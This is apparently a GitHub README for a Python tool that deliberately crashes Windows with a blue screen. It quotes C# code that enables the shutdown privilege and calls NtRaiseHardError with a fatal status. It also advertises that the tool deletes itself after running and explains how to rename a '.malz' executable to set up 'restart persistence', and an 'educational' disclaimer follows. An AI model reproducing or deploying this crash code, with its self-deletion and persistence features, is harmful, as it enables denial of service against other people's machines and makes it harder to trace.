 # Windows BSOD made in python
This project was inspired from this document

[document](https://www.pinvoke.net/default.aspx/ntdll/NtRaiseHandError.html)

Requires the SeShutdownPriviledge, otherwise will fail.
Use RtlAdjustPrivilege with Privilege parameter 19 to enable SeShutdownPriviledge.
```
C# Sample Code:
    Console.Write("Press any key to trigger a BSOD.");
    Console.ReadKey();
    RtlAdjustPrivilege(19, true, false, out bool previousValue);
    NtRaiseHardError(0xC0000420, 0, 0, IntPtr.Zero, 6, out uint Response);
```

- Supports compiling using pyinstaller and Nuitka
- Removes itself from execution directory automatically

# Restart prestance 
Modify on Line 15:
```executable = "BSOD.exe.malz"``` to ```"executable = "BSOD.exe"```

# Disclaimer
This tool is intended for educational purposes and has been developed for troubleshooting the identification of BSOD (Blue Screen of Death) causes. Its usage for any illegal activities is strictly prohibited, as it is meant exclusively for educational purposes.
